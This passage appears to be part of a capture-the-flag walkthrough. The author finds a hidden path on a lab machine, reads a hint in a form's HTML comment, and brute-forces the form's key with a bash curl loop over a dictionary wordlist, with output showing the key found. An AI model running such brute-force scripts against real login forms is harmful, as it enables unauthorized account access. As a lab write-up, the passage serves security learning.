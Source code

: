 At first I thought kzMb5nVYJw was some kind of encrypted text. I tried simple ciphers like ROT13 and Caesar, but nothing returned anything interesting. I tried using it as a password, but that didn't work. What eventually did work was using it in the URL: 


->![](/images/2015-08-06/02.png)<-

It was a form asking for a key. Viewing the source revealed a clue: 

```html
<center>
<form method="post" action="index.php">
Key:<br>
<input type="password" name="key">
</form> 
</center>
<!-- this form isn't connected to mysql, password ain't that complex --!>
```

Ok, so looks like I had to brute force a password. Not the most enjoyable thing, but necessary to continue. After trying several small wordlists, the winner was /usr/share/dict/words. I wrote the following script to brute force the password for me: 

```bash
#!/bin/bash

passwdlist=$1
echo "Brute forcing key..."
while read password; do 
    out=`curl -s -d "key=${password}" http://192.168.107.135/kzMb5nVYJw/index.php`
    echo ${out} | grep "invalid key" >/dev/null
    if [[ $? -ne 0 ]]; then
        echo -e "Found key \e[32m${password}"
        break
    fi 
done < ${passwdlist}
```

And here it is in action: 

```text
# ./brute.sh /usr/share/dict/words
Brute forcing key...
Found key elite
```
